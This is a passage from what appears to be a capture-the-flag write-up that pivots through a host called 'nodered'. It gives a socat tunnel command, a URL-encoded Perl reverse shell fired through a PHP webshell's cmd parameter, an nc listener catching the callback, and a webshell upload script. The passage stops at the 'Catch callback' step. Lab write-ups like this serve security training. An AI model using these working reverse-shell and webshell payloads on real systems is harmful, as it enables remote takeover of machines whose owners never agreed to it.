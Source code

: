 I’ll do the first one, so in the shell on nodered, create a tunnel:

```

# /tmp/s tcp-listen:223,fork tcp:10.10.14.14:223 &

```

That will run in the background, and forward any traffic that hits port 223 on nodered to my workstation on port 223.

#### Execution

And, like nodered, there’s a limited toolset available. Luckily, `perl` is still present (a phrase I never thought I’d say).

To get this working, it took a fair amount of playing with the url encoding. In the end, I had success by visiting the following url in a browser: `http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=perl%20-e%20%27use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d2223%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27`

Sometimes, the box would get into a state where my callback would come through, but it would return this error and die:

```

root@kali# nc -lnvp 223
listening on [any] 223 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 40772
Insecure $ENV{PATH} while running setuid at -e line 1.

```

I could fix this by adding `$ENV{PATH} = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin";` to the start of my perl command, which is the path from nodered.

#### Success

Putting it all together, I have a webshell executing a perl reverse shell command, calling back to nodered on port 223, which forwards that traffic to my workstation on port 223.
1. Upload shell:

   ```

   root@kali# ./upload_shell.sh
   OK
   OK
   OK
   OK
   OK

   ```
2. Trigger perl shell: `http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=perl%20-e%20%27$ENV{PATH}%20=%20%22/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin%22;use%20Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d2223%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E%26S%22)%3bopen(STDOUT,%22%3E%26S%22)%3bopen(STDERR,%22%3E%26S%22)%3bexec(%22/bin/sh+-i%22)%3b}%3b%27`
3. Catch callback:
